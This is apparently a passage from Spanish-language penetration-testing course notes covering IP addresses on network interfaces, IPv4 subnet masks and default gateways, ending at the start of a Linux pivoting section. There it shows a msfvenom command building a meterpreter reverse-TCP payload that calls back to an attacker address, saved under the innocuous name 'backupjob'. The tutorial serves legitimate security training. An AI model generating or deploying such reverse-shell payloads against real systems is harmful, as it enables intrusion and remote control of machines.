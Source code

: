 ### Direcciones IP en NICs

Si prestamos atención, notaremos diferentes direcciones IP vinculadas a cada NIC. Tomando como ejemplo `eth0`, con una dirección IP como `134.122.100.200`, estamos viendo una dirección IP pública. Esto implica que el tráfico proveniente o destinado a esta IP será gestionado por los Proveedores de Servicios de Internet (ISP) a través de la web. Direcciones IP públicas como esta se encuentran en dispositivos que tienen una conexión directa con Internet, a menudo situados en una Zona Desmilitarizada (DMZ).

Por otro lado, ciertos NICs, aparte de `tun0`, pueden poseer **direcciones IP privadas**. Estas direcciones operan dentro de entornos de red internos y no son accesibles directamente desde la Internet global. Para que un dispositivo se comunique en Internet, debe tener al menos una dirección IP pública en uno de sus NICs. Es esencial recordar que, en muchos casos, las direcciones IP privadas se traducen a direcciones IP públicas mediante NAT, permitiendo así la interacción con el exterior.


### Análisis de la Salida de `ipconfig` en Windows

La información proporcionada anteriormente proviene del resultado de ejecutar el comando `ipconfig` en un sistema Windows. Es evidente que este sistema posee múltiples adaptadores, aunque sólo unos pocos tienen direcciones IP asignadas. Las direcciones se presentan tanto en formatos IPv4 como IPv6. 

A pesar de los avances en la adopción de IPv6, este módulo se enfocará en redes que operan bajo IPv4. Esto se debe a que IPv4 aún domina como el principal mecanismo de direccionamiento IP en redes empresariales locales (LAN). Sin embargo, es crucial destacar que ciertos adaptadores, como los mostrados anteriormente, operan con configuraciones de **doble pila** (IPv4 e IPv6). Esta capacidad les permite acceder a recursos tanto por IPv4 como por IPv6.

#### Entendiendo la Máscara de Subred en IPv4

Cada dirección IPv4 está acompañada de una **máscara de subred**. Si consideramos la dirección IP como un número de teléfono, la máscara de subred actuaría como el código de área. Esta máscara divide la dirección IP en dos segmentos: la parte de la red y la del host. Esta distinción es vital para la comunicación en redes.

Cuando un paquete o tráfico requiere ser dirigido a una dirección IP fuera de su propia red, el sistema lo redirige a la **puerta de enlace predeterminada** (default gateway). Esta puerta de enlace, generalmente, es la dirección IP de un dispositivo que actúa como enrutador para esa LAN en particular. Desde la perspectiva de la pivotación en ciberseguridad, es esencial comprender las redes a las que un sistema comprometido puede acceder. Por ello, es de suma importancia documentar toda la información relacionada con direcciones IP durante un compromiso, ya que esto puede ser vital en fases posteriores del análisis.


## Pivoting en Linux
### Creación de payload

Primero crearemos un payload con `msfvenom`, poniendo la situación de que ya hemos tomado acceso a un activo dentro de la red.

```bash
┌─[root@kali]─[/home/user/pivoting]
└──╼ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.49 LPORT=8080 -f elf -o backupjob         
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: backupjob
```
